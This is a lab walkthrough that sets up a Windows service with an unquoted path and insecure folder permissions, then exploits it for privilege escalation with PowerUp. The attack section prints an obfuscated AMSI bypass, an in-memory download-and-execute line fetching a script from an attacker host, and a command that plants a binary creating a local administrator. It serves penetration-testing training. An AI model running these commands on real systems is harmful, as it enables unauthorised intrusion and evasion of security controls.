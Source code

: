 ```yaml
---
description: >-
  We will create a service with a Unquoted Service Path to escalate privileges
  from a low privileges user account to SYSTEM.
---
```


# Unqouted Service Path

## Configuring

1. Login to `WS01` as the `Administrator` user with password `Welcome01!`.
2. Start PowerShell as administrator and run the following commands to create a service:

* Name = `Service`
* Executable path = `C:\Program Files\bin folder\program\bin x64\Service.exe`
* Start = `auto`

```
sc.exe create "Service" binpath= "C:\Program Files\bin folder\program\bin x64\Service.exe" start= auto
```

![](<../../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

3\. Run the following command to create the folders for the service:

```
mkdir "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (10) (1) (2) (1) (1) (1).png>)

4\. Run icacls to check the current permissions on the directories with a space in it:

```
icacls.exe "C:\Program Files\bin folder"
icacls.exe "C:\Program Files\bin folder\program\bin x64"
```

![](<../../../.gitbook/assets/image (15) (2).png>)

Currently the low privileged users can't create any files in the directories with a space. BUILTIN\Users has (RX) privileges. Which is **RX** (read and execute access). For more information about the icacls access rights check out [this SuperUser](https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item) post.

5\. Run icacls to give the `BUILTIN\Users` write permissions on `C:\Program Files\bin folder\program`.

```
icacls.exe "C:\Program Files\bin folder\program" /grant BUILTIN\Users:W
```

![](<../../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

6\. Run icacls again the check the permissions on the directory:

```
icacls.exe "C:\Program Files\bin folder\program"
```

![](<../../../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

## Attacking

### How it works

When a service exists whose executable path contains spaces and it isn't enclosed within quotes it could be used to run an executable of our choice. This is because if the service is not enclosed within quotes and it has spaces, it would handle the space as a break and pass the rest of the service path as an argument.

If the filename is a long string of text which contains spaces, and is not enclosed within quotation marks, the filename will be executed in the order from left to right until the space is reached and will append `.exe` at the end of this spaced path. For example, consider we have the following path:

`C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

Windows will try to execute the following:

1. `C:\Program Files\A.exe`
2. `C:\Program Files\A Folder\B.exe`
3. `C:\Program Files\A Folder\B Folder\C.exe`
4. `C:\Program Files\A Folder\B Folder\C Folder\Program.exe`

### Tools

* Icacls.exe
* [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

### Executing the attack

#### Powerup

1. Download PowerUp on your attacking machine and host it on a webserver

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
python3 -M http.server 8090
```

![](<../../../.gitbook/assets/image (43) (1) (1) (1) (1) (1) (1).png>)

2\. Login on `WS01` with the user `John` and the password `Welcome2022!.`

```
evil-winrm -i 10.0.0.128 -u john -p 'Welcome2022!'
```

3\. Open Powershell, execute a amsi bypass such ass the one below and download PowerUp into memory with `iex` and `iwr` (`Invoke-Expression` and `Invoke-WebRequest`)

```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
iex (iwr http://192.168.248.2:8090/PowerUp.ps1 -usebasicparsing)
```

![](<../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png>)

4\. Execute `Invoke-AllChecks` to run all the checks from `PowerUp`.

![](<../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1) (1).png>)

5\. The output tells us there is a service with the name `Service` and it has a **unqouted** service path (`C:\Program Files\bin folder\program\bin x64\service.exe`).

6\. To check if we can write a binary in one of the folders check the permissions the folders before the one with a space in it. Since we need to write the binaries `C:\Program Files\bin.exe` or `C:\Program Files\bin folder\program\bin.exe`.

```
icacls.exe "C:\Program Files"
icacls.exe "C:\Program Files\bin folder\program"
```

We have no write permissions in `C:\Program Files`:

![](<../../../.gitbook/assets/image (52) (1) (1) (1) (1) (1) (1) (1) (1).png>)

But we do have write permissions in `C:\Program Files\bin folder\program`.

![](<../../../.gitbook/assets/image (20) (1) (2).png>)

7\. To abuse this run the following command from PowerUp, which will create a executable `bin.exe` in the path `C:\Program Files\bin folder\program` which will add a new local administrator.

```
Write-ServiceBinary -ServiceName 'Service' -ServicePath 'C:\Program Files\bin folder\program\bin.exe' -Username 'privesc' -Password "Welcome2022!" 
```

![](<../../../.gitbook/assets/image (22) (1) (1) (1) (1) (1) (1) (1).png>)

8\. Our current user can't start the service, which means we should restart the machine and check if the user `privesc` is created.

![](<../../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

9\. Start a new PowerShell session as Administrator and fill in the credentials `privesc:Welcome2022!`.

![](<../../../.gitbook/assets/image (47) (1) (1) (1) (1) (1) (1).png>)

![](<../../../.gitbook/assets/image (39) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### Cleanup

Remove the user privesc and the binary

```
Remove-Item C:\Program Files\bin folder\program\bin.exe
net user privesc /del
```

## Defending

### Recommendations

* Periodically check for vulnerable services and directory permissions.

### Detection



## References

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://superuser.com/questions/322423/explain-the-output-of-icacls-exe-line-by-line-item-by-item" %}

{% embed url="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1" %}

